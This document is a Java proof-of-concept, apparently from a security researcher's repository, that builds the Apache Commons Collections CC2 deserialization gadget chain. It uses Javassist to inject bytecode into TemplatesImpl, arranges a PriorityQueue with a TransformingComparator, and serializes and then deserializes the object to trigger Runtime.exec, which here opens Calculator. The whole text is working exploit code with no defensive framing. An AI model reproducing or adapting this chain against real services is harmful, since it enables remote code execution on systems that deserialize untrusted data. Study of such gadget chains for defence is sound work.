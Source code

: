 ```java
        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("CommonsCollectionsEvilCode");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);
        ctClass.writeFile("./");

        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        TemplatesImpl templates = new TemplatesImpl();
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetByteCodes);
        _tfactory.set(templates, new TransformerFactoryImpl());

        TransformingComparator transformingComparator = new TransformingComparator(transformer);
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class c2 = Class.forName("java.util.PriorityQueue");
        Field _queue = c2.getDeclaredField("queue");
        _queue.setAccessible(true);
        Object[] queue_array = new Object[]{templates,1};
        _queue.set(priorityQueue,queue_array);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);
        try {
            // 序列化操作
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CC2EvilGadget2.bin"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
            // 反序列化操作
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CC2EvilGadget2.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC2();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```